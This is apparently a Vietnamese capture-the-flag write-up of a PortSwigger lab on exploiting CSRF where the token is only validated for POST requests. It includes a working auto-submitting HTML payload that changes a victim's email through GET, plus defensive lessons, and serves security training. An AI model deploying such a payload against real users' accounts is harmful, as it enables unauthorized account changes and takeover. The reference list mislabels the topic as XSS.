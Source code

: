 # Write-up: CSRF where token validation depends on request method

### Tổng quan
Khai thác lỗ hổng Cross-Site Request Forgery (CSRF) trong chức năng thay đổi email của ứng dụng, nơi kiểm tra CSRF token chỉ áp dụng cho phương thức POST mà không áp dụng cho phương thức GET. Ứng dụng cho phép gửi yêu cầu thay đổi email qua GET mà không yêu cầu token CSRF, dẫn đến khả năng thực hiện CSRF thông qua top-level navigation. Sử dụng payload HTML trong Exploit Server để gửi form GET giả mạo, thay đổi email của nạn nhân và hoàn thành lab.

### Mục tiêu
- Khai thác lỗ hổng CSRF bằng cách gửi yêu cầu GET giả mạo đến `/my-account/change-email` mà không cần CSRF token, tận dụng cơ chế kiểm tra token yếu chỉ áp dụng cho POST, thay đổi email của nạn nhân và hoàn thành lab.

### Công cụ sử dụng
- Burp Suite Pro
- Firefox Browser

### Quy trình khai thác
1. **Thu thập thông tin (Reconnaissance)**
- Đăng nhập bằng tài khoản `wiener`:`peter` và thay đổi email thành `1111@gmail.com` tại `/my-account/change-email`:
    ![email](./images/1_update_email.png)
- Quan sát:
    - Yêu cầu POST chứa tham số `csrf` trong body, yêu cầu token hợp lệ.
    - Cookie session không có thuộc tính `SameSite`, cho phép gửi trong các yêu cầu cross-site.

2. **Khai thác (Exploitation)**
- Sử dụng công cụ PoC của Burp Suite Professional để tạo payload CSRF gửi yêu cầu GET:
    ```html
    <html>
      <body>
        <form action="https://lab-id.web-security-academy.net/my-account/change-email">
          <input type="hidden" name="email" value="1212@gmail.com" />
          <input type="submit" value="Submit request" />
        </form>
        <script>
          history.pushState('', '', '/');
          document.forms[0].submit();
        </script>
      </body>
    </html>
    ```
    ![body](./images/2_body.png)
- **Ý tưởng payload**:
    - Form sử dụng phương thức GET (mặc định khi không chỉ định method), gửi tham số `email=1212@gmail.com` đến `/my-account/change-email`.
    - Script `history.pushState('', '', '/')` thay đổi URL trình duyệt để tránh hiển thị URL đáng ngờ.
    - Script `document.forms[0].submit()` tự động gửi form, thực hiện yêu cầu GET giả mạo.
    - Cookie `session` của nạn nhân được gửi kèm do thiếu `SameSite` và yêu cầu GET được thực hiện trong top-level navigation.

- Gửi payload đến nạn nhân qua chức năng "Deliver exploit to victim" của Exploit Server:
    - **Kết quả**: Khi nạn nhân truy cập trang Exploit Server, form gửi yêu cầu GET, thay đổi email thành `1212@gmail.com` và hoàn thành lab.
      ![solved](./images/3_solved.png)

### Bài học rút ra
- Hiểu cách khai thác lỗ hổng CSRF bằng cách gửi yêu cầu GET giả mạo đến `/my-account/change-email` mà không cần CSRF token, tận dụng cơ chế kiểm tra token yếu chỉ áp dụng cho phương thức POST.
- Nhận thức tầm quan trọng của việc áp dụng kiểm tra CSRF token cho tất cả phương thức HTTP nhạy cảm, sử dụng token ngẫu nhiên và duy nhất, cấu hình `SameSite=Strict` hoặc `Lax` cho cookie để ngăn chặn các cuộc tấn công CSRF.

### Tài liệu tham khảo
- PortSwigger: Cross-Site Scripting (XSS)

### Kết luận
Lab này cung cấp kinh nghiệm thực tiễn trong việc khai thác CSRF bằng cách lợi dụng kiểm tra CSRF token yếu chỉ áp dụng cho POST, nhấn mạnh tầm quan trọng của việc áp dụng kiểm tra token cho mọi phương thức HTTP nhạy cảm, sử dụng token ngẫu nhiên, và cấu hình `SameSite` hợp lý để bảo vệ ứng dụng. Xem portfolio đầy đủ tại https://github.com/Furu2805/Lab_PortSwigger.

*Viết bởi Toàn Lương, Tháng 8/2025.*